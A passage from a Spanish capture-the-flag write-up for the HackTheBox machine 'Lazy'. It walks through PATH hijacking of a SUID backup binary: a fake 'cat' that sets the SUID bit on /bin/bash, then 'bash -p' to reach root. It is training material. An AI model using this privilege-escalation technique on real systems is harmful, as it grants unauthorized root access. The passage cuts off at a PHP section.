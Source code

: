 El problema reside en llamar a cat por su ruta relativa en vez de absoluta (/bin/cat) esp se traduce en que el  sistema buscar este binario en una serie de 
rutas ordenadas por prioridad:
```console
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
mitsos@LazyClown:~$ which cat
/bin/cat # /usr/bin/cat
```

Si existiera un cat malicioso en una ruta anterior a sbin como "/usr/local/sbin" el sistema lo ejecutaria como prioritario.
Como no creo que tengamos acceso a ninguna de esas rutas podemos editar el path para añadir otra como primer orden de prioridad...

```console
mitsos@LazyClown:~$ pwd
/home/mitsos
mitsos@LazyClown:~$ export PATH=/home/mitsos:$PATH
mitsos@LazyClown:~$ echo $PATH
/home/mitsos:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Creamos en el directorio actual un archivo llamado **cat** 
```console
mitsos@LazyClown:~$ echo "chmod u+s /bin/bash" > ./cat
mitsos@LazyClown:~$ chmod +x cat
mitsos@LazyClown:~$ ./backup
mitsos@LazyClown:/tmp$ bash -p
bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# cat root.txt
chmod: changing permissions of ‘/bin/bash’: Operation not permitted
```
No nos deja porque ahora cat es el malo, tenemos que recuperar un cat bueno
```console
bash-4.3# export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
bash-4.3# cat /root/root.txt
```

-------------

# Extra: Error en PHP

[Fuente](https://0xdf.gitlab.io/2020/07/29/htb-lazy.html)
Si en registro ponemos admin:admin nos dice que: